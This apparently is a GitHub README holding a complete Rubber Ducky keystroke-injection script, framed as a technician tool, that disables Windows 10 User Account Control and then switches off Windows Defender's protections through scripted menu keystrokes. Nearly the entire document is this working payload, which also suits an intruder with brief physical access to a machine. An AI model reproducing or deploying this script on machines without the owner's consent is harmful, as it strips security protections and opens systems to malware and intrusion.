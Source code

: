 # Rubber-Ducky_Disable_W10-Defender_Technician-Edition
a quickly script for Rubber Ducky to disable w10 defender on large scale

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Rubber-Ducky_Disable_W10-Defender_Technician-Edition/master/img/main_win10.png "SnapChat_Leak_2018-by-Jonny-Banana")

DELAY 2000

REM  first disable UAC
CONTROL ESCAPE
DELAY 200
STRING uac 
DELAY 200
ENTER
DELAY 200
DOWNARROW
DELAY 200
DOWNARROW
DELAY 200
DOWNARROW
DELAY 200
TAB
DELAY 200
ENTER
DELAY 200
LEFT
DELAY 200
ENTER
DELAY 200
REM it's time to disable the fuckin' defender....
CONTROL ESCAPE
DELAY 200
STRING virus pro
DELAY 200
ENTER
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 200
SPACE
DELAY 200
TAB
DELAY 200
SPACE
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
SPACE

